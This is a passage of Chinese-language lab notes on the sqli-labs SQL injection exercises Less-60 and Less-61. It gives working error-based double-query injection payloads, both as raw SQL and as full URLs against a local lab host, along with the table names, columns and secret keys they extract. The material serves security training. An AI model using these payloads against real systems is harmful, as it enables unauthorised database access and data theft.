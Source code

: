 获取列

`1 and (select count(*) from information_schema.tables group by concat('~',(select column_name from information_schema.columns where table_schema=database() and table_name='N6JFY84247' limit 2,1),'~',floor(rand(0)*2))) %23`

`secret_FWQ3`

获取key

`1 and (select count(*) from information_schema.tables group by concat('~',(select secret_FWQ3 from N6JFY84247 limit 0,1),'~',floor(rand(0)*2))) %23`

`VlWMK389WVuIephCe46vDls5`


***
# less 60(GET-challenge-Double Query-5 queries allowed-Variation 3)
## 原理

id=("1"),改变闭合方式

## 步骤

获取表

`http://192.168.64.135/Less-60/?id=1%22)%20and%20(select%20count(*)%20from%20information_schema.tables%20group%20by%20concat(%27~%27,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),%27~%27,floor(rand(0)*2)))%20%23`

5H36JXB2F0

获取 列

`http://192.168.64.135/Less-60/?id=1%22)%20and%20(select%20count(*)%20from%20information_schema.tables%20group%20by%20concat(%27~%27,(select%20column_name%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%275H36JXB2F0%27%20limit%202,1),%27~%27,floor(rand(0)*2)))%20%23`

secret_NFL6

获取key

`http://192.168.64.135/Less-60/?id=1%22)%20and%20(select%20count(*)%20from%20information_schema.tables%20group%20by%20concat(%27~%27,(select%20secret_NFL6%20from%205H36JXB2F0%20limit%200,1),%27~%27,floor(rand(0)*2)))%20%23`

49DYkkaArpuMaYb5ITI6NYlP


***
# less 61(GET-challenge-Double Query-5 queries allowed-Variation 4)
## 原理
